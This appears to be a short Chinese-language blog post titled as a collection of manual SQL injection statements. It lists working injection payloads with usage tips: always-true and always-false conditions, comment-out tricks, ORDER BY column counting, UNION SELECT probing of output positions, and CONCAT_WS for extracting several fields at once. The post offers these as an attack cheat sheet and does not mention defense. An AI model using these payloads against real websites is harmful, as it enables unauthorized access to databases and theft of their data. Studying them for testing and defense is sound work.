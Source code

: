```yaml
---
layout: post
title: "SQL手工注入语句大全"
author: "Blume"
tags: 网络安全
intro: "持续更新中..."
---
```


## 说明
此文章持续更新，我会把学到的各种sql注入语句发布在这里

## 语句控制:
- 如果参数是字符串，用 `'`。如果参数是数字，用 `;`

- 要"注释"掉后面的内容，可以用 **`-- `** (有空格!!!)

## 查询语句大全
- 使条件为真: `' or 'a' = 'a`

- 使条件为假: `' and '1' = '0`

- 使用order by判断服务器SQL语句到底查询了多少个参数": `' order by X -- `
  * X 可以是任何一个数字，从比较大的数字开始，一直减半，直到语句成功为止，这时 X 可能就是参数的数量
  * 为了获得更精确的结果，建议在原来的基础上执行多几次加减法

- 确定参数位置: `' union select X,Y,Z...... -- `
  * XYZ看参数数量决定，观察输出以确定参数的位置
  
- 输出多条信息(拼接法): `' union select CONCAT_WS(CHAR(32, 58, 32), X, Y, Z), Y, Z... -- `
  * XYZ看参数数量决定
  * CHAR(32, 58, 32) 指 " : "